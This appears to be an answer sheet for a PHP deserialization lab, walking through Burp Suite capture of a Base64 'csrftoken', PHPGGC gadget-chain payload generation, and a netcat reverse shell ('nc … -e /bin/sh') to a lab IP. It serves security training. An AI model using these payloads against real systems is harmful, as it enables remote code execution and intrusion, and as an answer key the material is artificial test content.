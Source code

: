 # PHP Deserialization Answersheet

**Step 1:** Navigate to "PHP Website:16664" link.<br />
<kbd> <img src="1.png" /> </kbd>
<br /> <br />


**Step 2:** Provide the necessary information and click on "submit" button.<br />
<kbd> <img src="2.png" /> </kbd>
<br /> <br />


**Step 3:** Capture the request in Burp Suite proxy and observe that the "csrftoken" parameter contains Base64 data.<br />
<kbd> <img src="3.png" /> </kbd>
<br /> <br />


**Step 4:** Decode the value using Base64, and identify the serialized data.<br />
<kbd> <img src="4.png" /> </kbd>
<br /> <br />


**Step 5:** Send request captured in **Step 3** to the Burp Repeater.<br />
<kbd> <img src="5.png" /> </kbd>
<br /> <br />


**Step 6:** Download the PHPGGC utility from the following location to generate the serialised payload using the following command and capture the generated payload.<br />
PHPGGC Location: https://github.com/ambionics/phpggc
```
./phpggc -b slim/rce1 system id
```
<kbd> <img src="6.png" /> </kbd>
<br /> <br />


**Step 7:** Provide the payload generated in **Step 6** in parameter "csrftoken" in request captured in **Step 5** and send the request. Observe that the server responds with the output of command "id". <br />
<kbd> <img src="7.png" /> </kbd>
<br /> <br />


**Step 8:** Start the listener using the following command.<br />
```
nc -nlvp 6666
```
<kbd> <img src="8.png" /> </kbd>
<br /> <br />


**Step 9:** Capture the system IP Address and use that to generate the payload of reverse shell using the following command and capture the payload.<br />
```
./phpggc -b slim/rce1 system "nc 192.168.29.88 6666 -e /bin/sh"
```
<kbd> <img src="9.png" /> </kbd>
<br /> <br />


**Step 10:** Provide the payload captured in **Step 9** in the "csrftoken" parameter in **Step 5** and click on "send" button. <br />
<kbd> <img src="10.png" /> </kbd>
<br /> <br />

**Step 11:** A connection will be received on reverse shell. Extract the system information using whoami, uname -a command.<br />
<kbd> <img src="11.png" /> </kbd>
<br /> <br />